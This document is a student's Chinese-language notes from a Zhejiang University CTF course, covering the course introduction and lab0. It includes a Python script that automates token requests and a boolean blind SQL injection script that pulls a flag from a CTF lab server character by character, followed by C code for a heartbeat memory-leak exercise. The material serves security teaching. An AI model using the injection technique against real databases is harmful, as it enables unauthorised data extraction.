

# 浙江大学AAA短学期课程

:fontawesome-brands-github:[详细的lab与代码均会上传到仓库](https://github.com/kailqq/CTF)

## 7-2 lec1
> 授课：常瑞，王鹤翔(**TonyCrane**)

### :fontawesome-solid-flag:[courese website](https://courses.zjusec.com)

### 课程介绍

 第一节课例行介绍课程内容，老师以及TA，CTF介绍:

 - web
  
 - misc
  
 - crypto
  
 - pwn
  
 - reverse

 - 著名CTF比赛介绍 
  
!!!note 分数组成
    - 基础模块 lab0+5个实验 **55%**
    - 考勤 **%5**
    -  五个专题 每次作业 **20%** ，自选2个或以上

### 如何学习CTF
  -  [CTF-wiki](https://ctf-wiki.org/)
  
  -  [hello-CTF](https://hello-ctf.com)  
  
  -  [zju校赛](https://ctf.zjusec.com)

  -  [Hackergame](https://hack.lug.ustc.edu.cn)
  

### lab0
 :fontawesome-solid-flag:[**lab0**](https://courses.zjusec.com/intro/lab0/)
作为课程第一个作业，需要全部做完

!!!note 
     由于lab0报告中我已经写过一遍解释，不想再照搬上来力，所以只写个大概
    
#### Web
##### Token
背景：点击一个按钮1337次会得到Flag，但是鼠标靠近就会使得按钮消失，F12查看源代码也被禁止。

   - view-source：
   
  
   - `curl`命令 
   

需要以同一个用户来执行1337次点击


???Hint
       ```python
       import requests

       import re

       sess = requests.Session()

       for i in range(1337):
           res=sess.get("http://pumpk1n.com/lab0.php")
           r = re.findall(r"token=(.*)'",res.text)
           flag=sess.get(f"http://pumpk1n.com/flag.php?token={r[0]}")
           if(i==1336):
             print(flag.text)
       ```

##### 布尔盲注
只有两种输入被允许，空格也不允许，1和2，但是会进行布尔运算，可以利用括号代替空格

???Hint
     ```python
     import requests
     import string


     flag=''
     url='http://040601e5-a92b-4bc9-8831-f9863d3d8381.node5.buuoj.cn:81/'
     ascii_list=string.printable
     done=0
     index=0
     while done != 1:
         for i in ascii_list:
             input='if(ascii(substr((select(flag)from(flag)),{0},1))={1},1,2)'.format(index,ord(i))
             post_in={"id":input}
             res=requests.post(url=url,data=post_in)
             if 'glzjin' in res.text:
                 flag+=i
                 print(flag)
                 index+=1
                 if i=='}':
                     done=1
                 break
     ```

#### Pwn
  寻找可能发生的内存泄漏
???Hint
    ```C
        #include <stdio.h>
        #include <stdlib.h>
        #include <string.h>
        #include <stdint.h>
        #include <stdbool.h>

        struct hbpkt
        {
            uint32_t size;
            uint32_t timestamp;
            uint32_t index;
            uint32_t cred;
            char data[];
        };

        struct hbpkt *get_heart_beat()
        {
            uint8_t buffer[0x1000] = {0};
            fread(buffer, sizeof(struct hbpkt), 1, stdin);

            struct hbpkt *tmp = (struct hbpkt *)buffer;

            if (tmp->size > 0x1000)
                return NULL;
            
            if(tmp->size > sizeof(struct hbpkt))fread(tmp->data, tmp->size - sizeof(struct hbpkt), 1, stdin);
            else {
                printf("Invalid size\n");
                return NULL;
            }//增加判断，防止 size 小于等于 sizeof(struct hbpkt) 时无符号数溢出

            uint32_t real_size = sizeof(struct hbpkt) + strlen(tmp->data);

            struct hbpkt *res = malloc(real_size);

            if (!res)
                return NULL;

            memcpy(res, buffer, real_size);

            res->index += 1;
            res->size = real_size;//更新size，防止溢出

            return res;
        }

        int reply_heart_beat(struct hbpkt *pkt)
        {
            int err=0;
            int written;

            if (pkt->size)
            {
                written = fwrite(pkt, 1, pkt->size, stdout);
                fflush(stdout);
            }

            if (written == 0 || written != pkt->size)
            {
                err = 1;
            }

            return err;
        }

        int main()
        {
            int err;
            while (true)
            {
                struct hbpkt *p = get_heart_beat();
                if (!p)
                    continue;

                err = reply_heart_beat(p);

                if (err)
                {
                    free(p);
                    continue;
                }
                free(p);//释放内存
            }
        }  
    ```
#### Reverse
  反汇编IDA工具的使用
#### Misc


##### Cyperchef，神奇妙妙小工具


##### LSB隐写 


#### Crypto
##### 古典密码-跳舞的小人


##### RSA解密-模逆元求解
